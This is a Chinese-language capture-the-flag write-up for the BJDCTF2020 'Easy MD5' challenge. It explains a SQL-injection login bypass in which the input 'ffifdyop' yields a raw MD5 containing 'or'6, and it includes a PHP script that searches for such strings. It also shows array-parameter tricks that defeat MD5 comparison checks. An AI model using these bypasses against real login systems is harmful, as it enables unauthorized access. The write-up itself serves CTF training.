 # [BJDCTF2020]Easy MD5

## 知识点

`sql注入`

## 解题

响应头里有

`select * from 'admin' where password=md5($pass,true)`

![](./img/6-1.png)

这里说一下两个的联系，这里的`16`位秘文和`32`位秘文的第`8-24`位子字符串时一样的，也就是中间的`16`位。

这里的原始`16`字符二进制格式一般会有乱码，如果想解决的话

1.对输出的`16`位字节的二进制转换为十六进制。

2.取`32`位秘文的中间`16`位

如果`MD5`值经过`hex`后，就构成万能密码进行了`sql注入`，这个就是这个题的关键

在`mysql`里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。

要注意的是这种情况是必须要有单引号括起来的，比如`password=‘xxx’ or ‘1xxxxxxxxx’`，那么就相当于`password=‘xxx’ or 1` ，也就相当于`password=‘xxx’ or true`，所以返回值就是`true`。

```php
<?php 
for ($i = 0;;) {
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>//引用于 http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/
```

这里提供一个最常用的：`ffifdyop`，该字符串`md5`加密后若`raw`参数为`True`时会返回` 'or'6 `(其实就是一些乱码和不可见字符，这里只要第一位是非零数字即可被判定为`True`，后面的会在`MySQL`将其转换成整型比较时丢掉)

所以如果这里我们输入`ffifdyop`，后端的`SQL语句`会变成：

```sql
select * from 'admin' where password=''or'6<trash>'           --->  True
```

后面的就是数组绕过`md5`

都是

```
a[]=1&b[]=2
```

这样的`数组绕过md5`